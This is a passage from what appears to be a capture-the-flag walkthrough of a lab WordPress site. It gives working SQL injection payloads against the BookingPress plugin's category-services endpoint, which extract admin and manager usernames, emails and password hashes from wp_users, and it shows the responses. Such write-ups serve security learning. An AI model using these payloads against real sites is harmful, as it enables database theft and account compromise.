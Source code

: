 Response:
```json
[
  {
    "bookingpress_service_id": "2",
	...
  }
]
```

Now we know we have two users. Let's extract their information one at a time given the `wp_users` schema:

```
action=bookingpress_front_get_category_services&_wpnonce=345a1d7f10&category_id=1&total_service=1000) UNION ALL SELECT user_login,user_pass,user_email,1,2,3,4,5,6 FROM wp_users LIMIT 1-- -
```

Response:

```json
[
  {
    "bookingpress_service_id": "admin",
    "bookingpress_category_id": "$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.",
    "bookingpress_service_name": "admin@metapress.htb",
	...
  }
]
```

The first user details are:
- user_login: `admin`
- user_pass: `$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.`
- user_email: `admin@metapress.htb`
- user_status: `0`

Let's get the second user:

```
action=bookingpress_front_get_category_services&_wpnonce=345a1d7f10&category_id=1&total_service=1000) UNION ALL SELECT user_login,user_pass,user_email,1,2,3,4,5,6 FROM wp_users LIMIT 1 OFFSET 1-- -
```

Response:

```json
[
  {
    "bookingpress_service_id": "manager",
    "bookingpress_category_id": "$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70",
    "bookingpress_service_name": "manager@metapress.htb",
	...
  }
]
```

The second user details are:
- user_login: `manager`
- user_pass: `$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70`
- user_email: `manager@metapress.htb`
- user_status: `0`
